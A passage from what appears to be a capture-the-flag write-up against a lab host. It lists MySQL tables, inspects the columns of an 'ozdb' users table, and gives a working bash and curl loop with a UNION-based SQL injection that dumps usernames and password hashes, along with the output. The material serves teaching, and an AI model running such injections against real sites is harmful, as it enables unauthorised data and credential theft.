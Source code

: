         time_zone
        time_zone_leap_second
        time_zone_name
        time_zone_transition
        time_zone_transition_type
        user
    ozdb
        tickets_gbw
        users_gbw
    performance_schema
        cond_instances
        events_waits_current
        events_waits_history
        events_waits_history_long
        events_waits_summary_by_instance
        events_waits_summary_by_thread_by_event_name
        events_waits_summary_global_by_event_name
        file_instances
        file_summary_by_event_name
        file_summary_by_instance
        mutex_instances
        performance_timers
        rwlock_instances
        setup_consumers
        setup_instruments
        setup_timers
        threads



Since ozdb jumps out as most interesting, I'll check out the columns for
those tables:



    root@kali# cat db_dump/ozdb-tickets_gbw.columns 
    ozdb:tickets_gbw:id
    ozdb:tickets_gbw:name
    ozdb:tickets_gbw:desc
    root@kali# cat db_dump/ozdb-users_gbw.columns 
    ozdb:users_gbw:id
    ozdb:users_gbw:username
    ozdb:users_gbw:password



#### users Table

The users table looks particularly interesting, and I can write a bash
loop to dump it out:



    root@kali# for i in $(seq 0 10); do curl -s "http://10.10.10.96/users/'%20union%20select%20concat(id,':',username,':',password)%20from%20ozdb.users_gbw%20LIMIT%201%20OFFSET%20${i};--%20-" | jq -r .username; done
    1:dorthi:$pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78
    2:tin.man:$pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk
    3:wizard.oz:$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY
    4:coward.lyon:$pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY
    5:toto:$pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg
    6:admin:$pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ
    null
    null
    null
    null
    null

